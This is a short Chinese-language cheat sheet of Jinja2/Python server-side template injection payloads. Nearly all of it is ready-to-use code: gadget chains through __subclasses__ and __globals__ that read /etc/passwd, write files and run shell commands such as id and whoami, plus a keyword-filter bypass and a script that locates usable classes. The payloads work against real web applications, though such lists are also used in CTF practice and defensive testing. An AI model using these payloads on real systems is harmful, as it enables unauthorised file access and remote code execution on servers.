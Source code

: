 
![U8dRSJ.png](https://s1.ax1x.com/2020/07/12/U8dRSJ.png)

使用方法
```python
{ { "cl0ss"|replace("0","a") } }
```


**获取索引**
```python
''.__class__.__mro__[2].__subclasses__().index(file)
```

**读文件**
python2
```python
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```
python3
```python
{ % for c in [].__class__.__base__.__subclasses__() % }{ % if c.__name__=='catch_warnings' % }{ {  c.__init__.__globals__['__builtins__'].open('filename', 'r').read() } }{ % endif % }{ % endfor % }
```

**写文件**
```python
().__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('test').write("test")
```

**执行命令**
python3
```python
{ % for c in [].__class__.__base__.__subclasses__() % }{ % if c.__name__=='catch_warnings' % }{ {  c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") } }{ % endif % }{ % endfor % }
```
python2 (针对catch_warnings模块，python3也可只要知道模块对应位置)
```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen("whoami").read()
```
还有下面方法，直接贴别人图了，（懒）
[![Y5LJMj.png](https://s1.ax1x.com/2020/05/19/Y5LJMj.png)](https://imgchr.com/i/Y5LJMj)

**使用脚本寻找(因环境而异)**
```python
_list =[].__class__.__base__.__subclasses__()
for c in _list:
	try:
		if "open" in c.__init__.__globals__['__builtins__']:
			print(c.__name__,_list.index(c))
	except Exception as e:
		pass
```
读文件
```python
{ { [].__class__.__base__.__subclasses__()[对应数].__init__.__globals__['__builtins__'].open("/etc/passwd").read()} }
```
[![Y5LYss.png](https://s1.ax1x.com/2020/05/19/Y5LYss.png)](https://imgchr.com/i/Y5LYss)
